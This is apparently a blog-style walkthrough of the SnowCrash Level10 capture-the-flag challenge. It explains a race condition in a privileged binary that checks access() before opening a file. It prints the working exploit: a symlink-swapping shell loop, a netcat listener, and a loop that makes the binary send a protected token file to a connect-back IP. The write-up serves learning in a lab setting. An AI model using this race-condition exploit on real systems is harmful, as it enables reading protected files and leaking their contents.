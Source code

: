 ```yaml
---
title: 42 SnowCrash Level10 - Walkthrough 🤖
tags:
  - ctf
  - snowcrash
  - data-race
  - access-bug
  - race-condition
categories:
  - ctfs
  - 42project
date: 2024-05-18 16:15:51
---
```


![snowcrash](/images/snowcrash.png)

### Introduction
In Level 10, we are presented with two files: `level10` and `token`. However, `token` is protected, and we don't have the permissions to read it. By analyzing the code in `level10`, we discover a race condition vulnerability that allows us to exploit the system and gain access to `token`.

#### What's a Race Condition?
A race condition can arise in software when a computer program has multiple code paths that are executing at the same time. If the multiple code paths take a different amount of time than expected, they can finish in a different order than expected, which can cause software bugs due to unanticipated behavior.

### The Exploit

#### Loop Link files
```sh
rm -rf /tmp/exploit && rm -rf /tmp/toto && touch /tmp/toto && chmod 777 /tmp/toto && while [ 1 ]; do ln -fs /tmp/toto /tmp/exploit && ln -fs /home/user/level10/token /tmp/exploit; done
```

This shell command sets up a race condition by continuously creating a symbolic link /tmp/exploit to /tmp/toto and then quickly changing it to point to /home/user/level10/token.

Bind on Port `6969` using Netcat

Press Ctrl+C when you get the flag

### Sent TCP Connection

```sh
while [ 1 ]; do nc -lvp 6969; done
```

This command sets up a netcat listener on port 6969 to catch the flag when it's retrieved.

### GetFlag
```sh
while [ 1 ]; do ./level10 /tmp/exploit <connect back ip>; done
```

This command continuously executes ./level10 with the exploit file /tmp/exploit, sending a connection back to <connect back ip> where <connect back ip> is the IP address where the flag will be sent.

### Conclusion

The race condition vulnerability in level10 highlights the danger of relying on the access function for security checks. The small time lapse between checking access permissions and performing file operations creates a window of opportunity for exploitation. Therefore, it's important to use more secure alternatives for access control to avoid such vulnerabilities.
